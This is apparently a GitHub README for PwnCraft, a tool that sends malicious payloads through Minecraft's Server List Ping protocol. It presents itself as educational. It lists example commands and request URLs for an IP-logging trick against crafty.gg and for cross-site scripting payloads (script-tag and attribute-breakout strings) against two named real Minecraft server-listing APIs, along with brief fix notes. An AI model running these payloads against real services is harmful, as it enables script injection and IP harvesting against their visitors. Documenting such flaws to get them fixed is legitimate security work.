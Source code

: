 # PwnCraft 🏴‍☠️

A tool built to deliver malicious payloads through [Minecraft SLP protocol](https://wiki.vg/Server_List_Ping).
Made for educational purpose, for preventing people from getting attacked by this.

## Example usages

> Use https://crafty.gg as an IP logger

Fix: Accept only favicon that starts with `png,base64...`

- `https://crafty.gg/tools/ping?ip=YOUR_IP&port=YOUR_PORT&platform=java`

- `./pwncraft localhost 1337 -f 'https://CANARY/'`

> XSS on https://api.serveurs-minecraft.com/

- `https://api.serveurs-minecraft.com/api.php?Favicon_Ping&ip=YOUR_IP&port=YOUR_PORT`

- `./pwncraft localhost 1337 -f '\"><script>alert(\"XSS\");</script><!--'`

> XSS on https://minecraft-api.com

Fix: HTML escape data from server

- `https://minecraft-api.com/api/ping/YOUR_IP/YOUR_PORT`

- `./pwncraft localhost 1337 -d '<script>alert(0);</script>'`
